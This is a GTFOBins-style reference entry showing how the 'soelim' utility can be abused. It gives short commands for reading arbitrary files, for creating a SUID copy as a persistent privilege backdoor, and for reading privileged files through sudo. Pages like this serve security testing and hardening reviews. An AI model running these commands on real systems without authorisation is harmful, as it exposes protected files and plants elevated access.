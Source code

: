 # GTFOBin: soelim

The content is actually parsed and corrupted by the command, thus it may not be suitable for arbitrary files.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
soelim "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which soelim) .

LFILE=file_to_read
./soelim "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo soelim "$LFILE"
```